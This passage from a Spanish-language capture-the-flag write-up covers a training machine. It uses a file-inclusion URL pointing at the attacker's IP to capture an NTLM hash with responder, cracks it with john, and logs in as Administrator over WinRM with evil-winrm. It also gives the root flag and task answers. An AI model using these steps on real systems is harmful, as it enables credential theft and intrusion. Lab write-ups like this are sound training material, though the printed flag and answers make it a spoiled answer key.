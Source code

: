 Buscamos ahora interceptar el Username y el Hash de la petición que hagamos desde la web. En nuestro caso ya que nuestra IP de atacante es la 10.10.15.28 escribiremos en la URL del navegador `http://unika.htb/?page=10.10.15.28/hola`

Al instante en nuestra terminal con **responder** a la escucha recibiremos lo que esperamos:

![Responder](responder-result.png)

## Password crack

Con el hash obtenido trataremos de obtener la contraseña en texto claro haciendo uso de la herramienta `john`.
Copiaremos el contenido íntegro del HASH a un fichero llamado `hash.txt`

~~~bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
~~~

En pocos segundos tendremos la contraseña del administrador: `badminton`

## Intrusión

Teniendo el nombre de usuario: `Administrator` y su contraseña: `badminton` exploramos otros puertos por los que acceder a servicios de la máquina Windows y conseguir vulnerarla.
Como observamos en el escaneo con NMAP tenemos en el puerto 5985 el servicio de gestión remota de Windows activo. Por ahí podremos entrar.
Para ello usaremos la herramienta `evil-winrm` y ejecutaremos:

1. `gem install evil-winrm`

2. `evil-winrm -i 10.129.230.9 -u Administrator -p badminton`

Y estamos dentro !

![Evil WINRM](evil.png)

Nos toca explorar el directorio en busca de la **flag** aunque explorando un poquito veremos que la flag.txt se encuentra en `C:\Users\mike\Desktop\flag.txt`

# Flag
![Root Flag](https://img.shields.io/badge/RootFlag-ea81b7afddd03efaa0945333ed147fac-red)

## Tasks

Si bien es recomendable ir resolviento las preguntas mientras se resuelve la máquina ya que ayuda en la resolución de la misma, en esta ocasión dejamos para el final el listado completo de preguntas o **mini-tasks** que debemos responder como parte de la resolución de la máquina:

1. When visiting the web service using the IP address, what is the domain that we are being redirected to?
: `unika.htb`

2. Which scripting language is being used on the server to generate webpages?
: `PHP`
